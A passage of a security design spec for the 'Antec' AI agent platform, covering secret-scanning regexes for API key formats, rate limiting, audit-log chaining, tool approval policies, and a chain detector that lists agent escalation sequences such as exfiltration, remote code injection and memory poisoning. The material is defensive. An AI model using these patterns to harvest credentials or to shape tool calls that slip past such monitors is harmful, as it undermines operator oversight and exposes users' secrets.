| 20 | Anthropic API Key | `sk-ant-[A-Za-z0-9_-]{40,}` | AI Provider |
| 21 | Google API Key | `AIza[0-9A-Za-z_-]{35}` | Cloud |
| 22 | Stripe Secret Key | `(?:sk\|pk)_(test\|live)_[0-9a-zA-Z]{24,}` | Payment |
| 23 | SendGrid API Key | `SG\.[A-Za-z0-9_-]{22,}\.[A-Za-z0-9_-]{22,}` | Email |

#### Redaction

When a secret is detected in an outbound message:

1. The full match is replaced with `[REDACTED]`.
2. An audit entry is created with the pattern name that matched (but not the secret value itself).
3. The original content is never logged or stored in unredacted form.

#### API

```rust
pub struct SecretScanner { patterns: Vec<PatternEntry> }

impl SecretScanner {
    pub fn new() -> Self;
    pub fn scan(&self, text: &str) -> Vec<String>;       // pattern names that matched
    pub fn redact(&self, text: &str) -> String;           // replace matches with [REDACTED]
    pub fn contains_secrets(&self, text: &str) -> bool;   // quick boolean check
}
```

### 7.3 Secret Storage

Encrypted secrets are persisted in the `secrets` table:

```sql
CREATE TABLE secrets (
    id TEXT PRIMARY KEY,
    name TEXT NOT NULL UNIQUE,
    ciphertext BLOB NOT NULL,
    nonce BLOB NOT NULL,
    created_at INTEGER NOT NULL
);
```

---

## 8. Layer 7 -- Rate Limiting (GCRA Algorithm)

**Module:** `antec-security::rate_limit`

### 8.1 GCRA (Generic Cell Rate Algorithm)

The GCRA is a leaky-bucket-derived algorithm that enforces a sustained rate while allowing configurable bursts. Each unique key (typically `"{session_id}:{tool_name}"`) is tracked independently.

#### Formula

```
emission_interval = 60s / rate_per_minute     (default: 60s / 60 = 1s)
delay_tolerance  = emission_interval * burst   (default: 1s * 10 = 10s)

On each request:
    new_tat = max(old_tat, now) + emission_interval
    allow_at = new_tat - delay_tolerance

    if now < allow_at:
        REJECT (SecurityError::RateLimited)
    else:
        ALLOW, update TAT to new_tat
```

Where `TAT` = Theoretical Arrival Time.

#### Default Configuration

- **Rate:** 60 requests per minute (`emission_interval` = 1 second)
- **Burst:** 10 (`delay_tolerance` = 10 seconds)
- Sustained rate: 1 request per second
- Burst: up to 11 back-to-back requests before rate limiting (1 sustained + 10 burst)
- Recovery: after `emission_interval`, one more request is allowed

```rust
pub struct GcraLimiter {
    /// Maps rate-limit keys to their Theoretical Arrival Time (TAT).
    state: HashMap<String, Instant>,
    /// Time between allowed requests: 60s / rate_per_minute.
    emission_interval: Duration,
    /// Maximum burst tolerance: emission_interval * burst_size.
    delay_tolerance: Duration,
}

impl GcraLimiter {
    pub fn new(rate_per_minute: u32, burst: u32) -> Self;
    pub fn check(&mut self, key: &str) -> Result<(), SecurityError>;
    pub fn reset(&mut self, key: &str);
}
```

#### Rate Limit Scopes

| Scope | Key | Default Rate | Default Burst |
|-------|-----|-------------|---------------|
| Global (per-session) | `session:{id}` | 60/min | 10 |
| Per-tool | `tool:{name}` | 60/min | 10 |
| Auth endpoint | `auth:{ip}` | 3/min | 3 |
| LLM provider | `llm:{provider}` | 30/min | 5 |

#### Response on Limit

- HTTP: `429 Too Many Requests` with `Retry-After` header (seconds until next allowed request).
- WebSocket: Error frame with `retry_after_ms` field.
- Audit entry logged with the exceeded scope and key.

### 8.2 Loop Detector (Per-Session)

Detects when an agent is stuck in a loop by tracking recent tool calls per session.

| Parameter | Default |
|-----------|---------|
| Ring buffer capacity | 20 calls |
| Loop threshold | 5 identical `(tool_name, args_hash)` pairs |

#### Argument Fingerprinting

```rust
fn hash_json(value: &serde_json::Value) -> u64 {
    let s = value.to_string();  // compact JSON serialization
    let mut hasher = DefaultHasher::new();
    s.hash(&mut hasher);
    hasher.finish()
}
```

Each `CallRecord` stores `(tool_name: String, args_hash: u64, timestamp: Instant)`.

When a loop is detected:

1. The current tool call is blocked.
2. A synthetic message is injected into the LLM context: `"[System] Loop detected: tool '{name}' called {count} times with identical arguments. Please try a different approach."`
3. An audit entry is logged.

```rust
pub struct LoopDetector { /* per-session VecDeque<CallRecord> */ }

impl LoopDetector {
    pub fn new(window_size: usize, threshold: usize) -> Self;
    pub fn record(&mut self, session_id: &str, tool_name: &str, args: &serde_json::Value);
    pub fn is_looping(&self, session_id: &str, tool_name: &str, args: &serde_json::Value) -> bool;
}
```

### 8.3 Circuit Breaker (Per-Tool)

Tracks consecutive failures per tool and, once a threshold is reached, blocks further calls until a cooldown period has passed.



| State | Behavior |
|-------|----------|
| Closed | All requests allowed. Failures increment counter. |
| Open | All requests blocked. Transitions to HalfOpen after cooldown. |
| HalfOpen | One probe request allowed. Success -> Closed. Failure -> Open. |

```rust
pub struct CircuitBreaker { /* per-tool BreakerState map */ }
pub enum BreakerStatus { Closed, Open, HalfOpen }

impl CircuitBreaker {
    pub fn new(failure_threshold: u32, cooldown: Duration) -> Self;
    pub fn is_allowed(&mut self, tool_name: &str) -> bool;
    pub fn record_success(&mut self, tool_name: &str);
    pub fn record_failure(&mut self, tool_name: &str);
    pub fn state(&self, tool_name: &str) -> BreakerStatus;
}
```

---

## 9. Layer 8 -- Audit Trail (HMAC-SHA256 Chaining)

**Module:** `antec-security::audit`

Every security-relevant event is recorded in an append-only, HMAC-chained audit log. The chain ensures tamper detection -- modifying any entry invalidates all subsequent signatures.

### Audit Chain Diagram



### Canonical Entry Format

Each audit entry is serialized to a canonical string for HMAC signing:

```
"{timestamp}|{actor}|{action}|{target}"
```

### HMAC Chaining Rules

- **First entry:** `HMAC-SHA256(key, "{ts}|{actor}|{action}|{target}")`
- **Subsequent entries:** `HMAC-SHA256(key, "{prev_sig}|{ts}|{actor}|{action}|{target}")`
- **Key:** Derived from the vault passphrase via a separate Argon2id derivation with salt `"antec-audit-chain-v1"`.

```rust
pub fn format_audit_data(timestamp: i64, actor: &str, action: &str, target: &str) -> String {
    format!("{timestamp}|{actor}|{action}|{target}")
}

pub fn sign_chained(key: &[u8], previous_sig: &str, entry_data: &str) -> String {
    let data_to_sign = format!("{previous_sig}|{entry_data}");
    sign_audit_entry(key, &data_to_sign)  // HMAC-SHA256, hex-encoded
}
```

### Audit Log Schema

```sql
CREATE TABLE audit_log (
    id         INTEGER PRIMARY KEY AUTOINCREMENT,
    timestamp  INTEGER NOT NULL,
    actor      TEXT    NOT NULL,
    action     TEXT    NOT NULL,
    target     TEXT,
    details    TEXT,
    session_id TEXT,
    risk_level TEXT    DEFAULT 'low',
    hmac_sig   TEXT
);
```

### Chain Verification

```rust
pub fn verify_chain(key: &[u8], entries: &[ChainEntry]) -> ChainVerifyResult;

pub struct ChainVerifyResult {
    pub total: usize,
    pub valid: usize,
    pub unsigned: usize,
    pub broken: usize,
    pub first_broken_at: Option<usize>,
    pub chain_intact: bool,
}
```

Verification algorithm:

1. Initialize `previous_sig = ""`.
2. For each entry in insertion order:
   - If unsigned: increment `unsigned`, mark chain as broken, set `previous_sig = ""`.
   - If signed: compute `expected = sign_chained(key, previous_sig, entry.data)`.
     - Match: increment `valid`, set `previous_sig = entry.sig`.
     - Mismatch: increment `broken`, mark chain as broken, set `previous_sig = entry.sig` (continue with actual sig).
3. Return result.

### Audited Events

| Action | Actor | Risk Level | When |
|--------|-------|------------|------|
| `tool_executed` | agent | varies | Tool successfully executed |
| `tool_blocked` | system | medium/high | Tool blocked by blocklist or approval denial |
| `tool_approval_requested` | agent | medium | Dangerous tool approval requested |
| `tool_approval_granted` | user | medium | User approved tool execution |
| `tool_approval_denied` | user | medium | User denied tool execution |
| `injection_detected` | system | high | Injection pattern found in input |
| `injection_blocked` | system | high | Input blocked due to injection (Block mode) |
| `secret_stored` | user | low | Secret added to vault |
| `secret_deleted` | user | low | Secret removed from vault |
| `secret_redacted` | system | medium | Secret detected and redacted from output |
| `session_created` | system | low | New chat session started |
| `session_deleted` | user | low | Session data deleted |
| `auth_pair` | user | low | Successful OTP pairing |
| `auth_pair_fail` | anonymous | medium | Failed OTP attempt |
| `memory_stored` | agent/user | low | Memory entry created |
| `memory_deleted` | user | low | Memory entry deleted |
| `command_blocked` | system | high | Shell command blocked by blocklist |
| `rate_limited` | system | medium | Request rate-limited (scope, key) |
| `sandbox_violation` | system | high | WASM sandbox capability violation |
| `crash_circuit_open` | system | high | Circuit breaker opened |
| `crash_recovered` | system | low | Circuit breaker recovered to closed |
| `config_changed` | user | medium | Configuration modified via API |
| `cron_executed` | scheduler | low | Cron job triggered |

---

## 10. Layer 9 -- Crash Guard (Circuit Breaker + Exponential Backoff)

**Module:** `antec-core::crash_guard`

The crash guard protects Antec from cascading failures by monitoring tool execution and provider calls. It implements a three-state circuit breaker with exponential backoff and a degraded operating mode.

### Circuit Breaker States



### Configuration

| Parameter | Default | Description |
|-----------|---------|-------------|
| `window_secs` | 60 seconds | Rolling window for failure counting |
| `threshold` | 5 | Failures within window to trip breaker |
| `probe_interval_secs` | 30 seconds | Time between probe attempts in HalfOpen |
| `success_count` | 3 | Consecutive successes to close breaker |

```rust
pub struct CrashGuardConfig {
    pub window_secs: u64,           // default: 60
    pub threshold: u32,             // default: 5
    pub probe_interval_secs: u64,   // default: 30
    pub success_count: u32,         // default: 3
}
```

### Operational Modes

```rust
pub enum DegradedMode {
    Normal,    // All features enabled
    Degraded,  // Non-essential features disabled (skills, cron, etc.)
}
```

### Failure Tracking

- **Rolling window:** Bounded `VecDeque<Instant>` of failure timestamps.
- **Pruning:** Failures older than `window_secs` are dropped before each new recording.
- **Threshold:** When the count within the window reaches `threshold`, mode transitions to `Degraded`.

### Recovery

- Requires `success_count` **consecutive** successful operations to exit degraded mode.
- A failure during recovery resets the consecutive success counter to 0.
- Recovery probes run at `probe_interval_secs` intervals.
- On recovery: mode returns to `Normal`, failure deque is cleared, counter reset.

### Exponential Backoff

```
duration = min(1s * 2^failure_count, 30s)
```

| Failures | Backoff |
|----------|---------|
| 0 | 1s |
| 1 | 2s |
| 2 | 4s |
| 3 | 8s |
| 4 | 16s |
| 5+ | 30s (capped) |

### API

```rust
pub struct CrashGuard { /* VecDeque<Instant>, mode, consecutive_successes */ }

impl CrashGuard {
    pub fn new(config: CrashGuardConfig) -> Self;
    pub fn record_failure(&mut self);
    pub fn record_success(&mut self);
    pub fn is_degraded(&self) -> bool;
    pub fn mode(&self) -> DegradedMode;
    pub fn failure_count(&self) -> usize;
    pub fn backoff_duration(&self) -> Duration;
    pub fn probe_interval(&self) -> Duration;
    pub fn consecutive_successes(&self) -> u32;
    pub fn config(&self) -> &CrashGuardConfig;
}
```

---

## 11. Tool Risk Classification and Approval Flow

### 11.1 Risk Levels (Safe / Moderate / Dangerous)

| Level | Description | Examples | Approval Required |
|-------|-------------|----------|-------------------|
| **Safe** | Read-only, no side effects | `memory_search`, `get_time`, `list_files` | No |
| **Moderate** | Limited side effects, reversible | `write_file`, `memory_store`, `web_fetch` | No (Permissive/Balanced) |
| **Dangerous** | Significant side effects, irreversible | `shell_exec`, `delete_file`, `send_message` | Yes (Balanced/Strict) |

### 11.2 Policy Interaction Matrix

| Risk Level | Permissive | Balanced | Strict |
|------------|-----------|----------|--------|
| Safe | Auto-allow | Auto-allow | Auto-allow |
| Moderate | Auto-allow | Auto-allow | Approval required |
| Dangerous | Auto-allow | Approval required | Blocked entirely |

### 11.3 Approval Flow



### 11.4 Approval Scopes (once / session / always)

| Scope | Meaning | Persistence |
|-------|---------|------------|
| `once` | Approve this single invocation only | None |
| `session` | Approve this tool for the rest of the current session | In-memory |
| `always` | Approve this tool permanently (stored in config) | SQLite `tool_policies` table |

### 11.5 Approval Timeout

Default: **60 seconds**. If the user does not respond within the timeout, the request is automatically denied with `resolved_by = "timeout"`.

---

## 12. Chain Detector

**Module:** `antec-security::chain`

Monitors sequences of tool invocations to detect escalation attacks where an agent chains tool calls to achieve a dangerous outcome.

### Architecture

```rust
pub struct ChainDetector {
    /// Per-session ring buffer of recent tool calls (capacity: 20).
    history: HashMap<String, VecDeque<ToolCallRecord>>,
    /// Known dangerous tool sequences.
    known_chains: Vec<AttackChain>,
    /// Dangerous tools that get extra scrutiny.
    dangerous_tools: HashSet<String>,
}

pub struct ToolCallRecord {
    pub tool_name: String,
    pub args_hash: u64,
    pub timestamp: Instant,
    pub risk_level: RiskLevel,
}

pub struct AttackChain {
    pub name: String,
    pub pattern: Vec<String>,  // ordered tool names
    pub alert_level: AlertLevel,
}

#[derive(Debug, Clone, Copy)]
pub enum AlertLevel {
    /// Informational -- log only.
    Low,
    /// Warning -- log and notify user.
    Medium,
    /// Critical -- log, notify, and potentially block.
    High,
}
```

### Ring Buffer

- **Capacity:** 20 entries per session.
- Oldest entries are evicted when the buffer is full.
- On each tool call, the detector scans the buffer for subsequence matches against known chains.
- Chain matching uses **subsequence detection**: the chain elements must appear in order within the buffer but need not be adjacent.

### Dangerous Tools List

```rust
const DANGEROUS_TOOLS: &[&str] = &[
    "exec_command",
    "eval",
    "write_file",
    "delete_file",
    "http_request",
];
```

### Known Attack Chains

| Chain Name | Pattern | Alert Level |
|-----------|---------|-------------|
| Data exfiltration (read + eval + exec) | `read_file` -> `eval` -> `exec_command` | High |
| Remote code injection | `http_request` -> `eval` -> `exec_command` | High |
| File staging + execution | `read_file` -> `write_file` -> `exec_command` | High |
| Reconnaissance + exploit | `list_files` -> `read_file` -> `exec_command` | Medium |
| Memory poisoning | Repeated `memory_store` with conflicting facts | Medium |
| Config tampering | `read_file(config)` -> `write_file(config)` | Medium |
| Slow exfiltration | Multiple `http_request` to same external host | Low |

### Detection Rules

| Rule | Threshold | Severity | Description |
|------|-----------|----------|-------------|
| Dangerous chain | Full subsequence match | High | A known escalation chain appears in the buffer |
| Rapid repeat | 3 consecutive identical dangerous tool calls | Medium | A dangerous tool called 3+ times in a row |
| Loop (fallback) | 10 total invocations of same tool in buffer | Low | Any tool invoked 10+ times (possible infinite loop) |

Check order: High -> Medium -> Low. Returns the highest-severity alert found.

### API

```rust
impl ChainDetector {
    pub fn new() -> Self;
    pub fn record_call(&mut self, tool_name: &str);
    pub fn check_chain(&self) -> Option<ChainAlert>;
}

pub struct ChainAlert {
    pub pattern: String,             // human-readable description
    pub severity: ChainSeverity,     // Low | Medium | High
    pub tool_names: Vec<String>,     // tools involved
}

pub enum ChainSeverity { Low, Medium, High }
```

---

## 13. Channel Allowlist

**Module:** `antec-security::allowlist`

Each channel adapter maintains an allowlist of permitted senders. Messages from non-allowed sources are silently dropped.

### Allowlist Configuration

```toml
[channels.console]
enabled = true
# Console is always allowed (localhost-only, authenticated via pairing).
# No allowlist needed.

[channels.discord]
enabled = true
# List of allowed Discord server (guild) IDs.
allowed_servers = ["123456789012345678", "987654321098765432"]

[channels.whatsapp]
enabled = true
# List of allowed phone numbers in E.164 format.
allowed_numbers = ["+14155551234", "+48123456789"]

[channels.imessage]
enabled = true
# List of allowed iMessage contacts (email or phone).
allowed_contacts = ["user@example.com", "+14155551234"]
```

### Channel Rules

| Channel | Allowlist Source | Empty List Behavior |
|---------|----------------|-------------------|
| `console` | Always allowed | N/A |
| `discord` | `discord_servers` (server/guild IDs) | Deny all |
| `whatsapp` | `whatsapp_numbers` (E.164 phone numbers) | Deny all |
| `imessage` | `imessage_contacts` (email or phone) | Deny all |
| Unknown | N/A | Always denied |

### Normalization Functions

All comparisons use normalized values:

```rust
/// Normalize a Discord server ID (strip whitespace, lowercase).
/// "Server-ABC" -> "server-abc"
pub fn normalize_server_id(id: &str) -> String;

/// Normalize a phone number to E.164 format.
/// "+1 (415) 555-1234" -> "+14155551234"
/// "1234567890" -> "+1234567890"
pub fn normalize_phone(number: &str) -> String;

/// Normalize an iMessage contact (lowercase email, E.164 phone).
/// "User@Example.COM" -> "user@example.com"
pub fn normalize_contact(contact: &str) -> String;
```

Normalization rules:

- **Phone:** strip all non-digit/non-`+` characters; prepend `+` if missing.
- **Contact:** trim whitespace, lowercase.
- **Server ID:** trim whitespace, lowercase.

### API

```rust
pub struct ChannelAllowlist {
    pub discord_servers: Vec<String>,
    pub whatsapp_numbers: Vec<String>,
    pub imessage_contacts: Vec<String>,
}

impl ChannelAllowlist {
    pub fn is_allowed(&self, channel: &str, sender_id: &str) -> bool;
    pub fn normalize(&mut self);
    pub fn add_entry(&mut self, channel: &str, entry: &str) -> bool;
    pub fn remove_entry(&mut self, channel: &str, entry: &str) -> bool;
}
```

- `add_entry` normalizes the entry and checks for duplicates. Returns `false` if already present.
- `remove_entry` normalizes and removes. Returns `false` if not found.
- Allowlist changes via the API take effect immediately (hot-reloaded).

---

## 14. Data Retention and GDPR Export

### 14.1 Retention Operations

| Operation | Method | Description |
|-----------|--------|-------------|
| Purge old messages | `purge_old_messages(before_ts)` | Delete messages with `created_at < before_ts` |
| Purge old memories | `purge_old_memories(before_ts)` | Delete non-archived memories with `updated_at < before_ts` |
| Purge old audit entries | `delete_audit_before(before_ts)` | Delete audit entries with `timestamp < before_ts` |
| Delete archived memories | `delete_archived_before(before_ts)` | Delete memories archived before timestamp |
| Delete expired tokens | `delete_expired_auth_tokens(now)` | Remove tokens with `expires_at < now` |

### 14.2 GDPR Data Portability (Export)

The `/api/data/export` endpoint produces a full export of all personal data:

```rust
pub fn export_all_data(&self) -> Result<ExportBundle>;

pub struct ExportBundle {
    pub sessions: Vec<SessionRow>,
    pub messages: Vec<MessageRow>,
    pub memories: Vec<MemoryRow>,
    pub audit_log: Vec<AuditLogRow>,
    pub cron_jobs: Vec<CronJobRow>,
    pub exported_at: i64,
}
```

| Data Category | Contents |
|--------------|----------|
| Sessions | All session records (token hashes redacted) |
| Messages | All conversation messages with timestamps and session IDs |
| Memories | All stored memories with metadata |
| Audit Log | Full audit trail |
| Cron Jobs | All scheduled jobs |
| Config | Current configuration (secrets redacted) |
| Skills | Installed skills and their manifests |

### 14.3 Full Data Deletion

```rust
pub fn delete_all_user_data(&self) -> Result<()>;
```

Truncates all user-facing tables: sessions, messages, memories, cron_jobs, approval_requests, secrets. The audit trail is preserved (deletion itself is logged).

### 14.4 Session-Scoped Deletion

```rust
pub fn delete_session_data(&self, session_id: &str) -> Result<()>;
```

Deletes all messages for the session, then deletes the session row.

### 14.5 Storage Diagnostics

```rust
pub fn storage_info(&self) -> Result<StorageInfo>;

pub struct StorageInfo {
    pub sessions: i64,
    pub messages: i64,
    pub memories: i64,
    pub audit_entries: i64,
    pub cron_jobs: i64,
    pub skills: i64,
}
```

### 14.6 Encryption at Rest

- All SQLite databases use WAL mode but are **not** encrypted by default (data is on the operator's local machine).
- The secret vault (API keys, tokens) is always encrypted via ChaCha20-Poly1305 (Layer 6).
- Optional full-database encryption can be enabled via `[storage] encrypt = true`, which uses SQLCipher with the vault passphrase.

---

## 15. Error Types

```rust
#[derive(Debug, Error)]
pub enum SecurityError {
    #[error("Command blocked: {0}")]
    CommandBlocked(String),

    #[error("Command execution failed: {0}")]
    ExecFailed(String),

    #[error("Command timed out after {0:?}")]
    Timeout(Duration),

    #[error("Channel not allowed: {channel} from {sender}")]
    ChannelDenied { channel: String, sender: String },

    #[error("Injection detected: {0}")]
    InjectionDetected(String),

    #[error("Secret error: {0}")]
    Secret(String),

    #[error("Rate limited: {0}")]
    RateLimited(String),

    #[error("IO error: {0}")]
    Io(#[from] std::io::Error),
}
```

---

## 16. Security Module Exports

```rust
// antec-security/src/lib.rs
pub mod allowlist;
pub mod audit;
pub mod blocklist;
pub mod chain;
pub mod injection;
pub mod rate_limit;
pub mod sandbox;
pub mod secrets;

pub use allowlist::ChannelAllowlist;
pub use blocklist::CommandBlocklist;
pub use chain::{ChainAlert, ChainDetector, ChainSeverity};
pub use injection::InjectionDetector;
pub use rate_limit::{CircuitBreaker, GcraLimiter, LoopDetector};
pub use sandbox::{ExecResult, OsSandbox, SandboxBackend, SandboxLimits};
pub use secrets::{SecretScanner, SecretVault};
```
